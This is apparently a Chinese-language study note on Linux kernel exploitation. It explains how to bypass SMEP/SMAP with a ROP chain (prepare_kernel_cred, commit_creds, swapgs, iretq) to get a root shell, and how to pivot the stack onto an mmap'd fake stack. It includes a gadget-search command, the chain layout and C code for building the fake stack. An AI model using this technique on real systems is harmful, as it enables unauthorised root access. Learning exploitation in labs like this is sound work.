 然后你就会发现没用（跟着教程写笔记的我白写了……）。不过告诉我们可以用dmesg查看kernel ring buffer的情况。这是因为在新版kernel中，CR4的第20和21个bit是固定的（至少不是完全白记，旧版还能用：覆盖CR4绕过smep/smap的做法在2019年的一个[patch](https://lwn.net/Articles/804849/)后失效，因此在这之前都能用）。就算我们在kernel mode中可以覆盖CR4，也无济于事。

真正的提权方式是，不要运行我们的代码，而是用rop实现。做法如下：
1. rop进prepare_kernel_cred(0)
2. rop进commit_creds()，参数为上一个函数的返回值
3. rop进swapgs ; ret，为了接下来调用iretq
4. 准备好RIP|CS|RFLAGS|SP|SS的stack，rop进iretq

事实上并没有这么简单，因为kernel里很多gadget用不了，导致可能把rax放进rdi就要费很多功夫（参考原作者的文章）。而且，ROPgadget虽然能找到swapgs，但是找不到iretq。所以只能用objdump
```sh
objdump -j .text -d ~/vmlinux | grep iretq | head -1
```
完整rop chain大概是这样构造的：
```
cookie
rbx
r12
rbp
pop rdi;ret
rdi:0
prepare_kernel_cred
mov rax,rdi;ret; //简化了一下，原wp比这复杂，但是效果是这个
commit_creds
swapgs;ret
iretq
rip
cs
rflags
sp
ss
```
能看出iretq需要的信息放在iretq后面的栈上。执行payload就获得了在第一种情况下的root shell。

那么第二种情况呢？

这回只能覆盖个返回地址，第一种情况这么长的ropchain肯定装不下。解决方式大家都不陌生——栈迁移。通过将rsp修改为一块可控可写的空间，伪造一个假stack。好消息：kernel的栈迁移比userland的要简单得多。kernel image里一堆gadget，肯定有直接改rsp/esp的。我们对那种往esp里放固定值的gadget比较感兴趣，只要保证gadget可执行且固定值对齐了即可。比如：`mov esp,0x5b000000`

虽然mov esp看起来只动了rsp的低4字节，高4字节还不是0；但是根据[文档](http://x86asm.net/articles/x86-64-tour-of-intel-manuals/#General-purpose-Registers)，x86-64下mov指令的destination要是是32位寄存器，会自动清零高32位寄存器。即，mov esp看起来只动了rsp的低4字节，其实高4字节也被清零了

假stack的构造也很简单。刚刚把esp改成了0x5b000000，那就用mmap map一块内存，把rop chain写到里面
```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy r12
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;
    ... // the rest of the chain is the same as the last payload
}
```
注意事项：
1. mmap的内存地址是0x5b000000 - 0x1000而不是直接0x5b000000。这是因为需要调用prepare_kernel_cred()和commit_creds()，而这两个函数都会导致栈上升。要是我们直接让esp指到代码页的开头，会因为stack空间不够而崩溃
2. 往第一页里写点没用的填充值，不然会导致Double Fault。根据作者的理解，代码页仅在被访问后才会插入页表。而不是在mmap后。0x2000字节正好是两页，我们把rop chain放在了第二页，因此还需要访问下第一页。
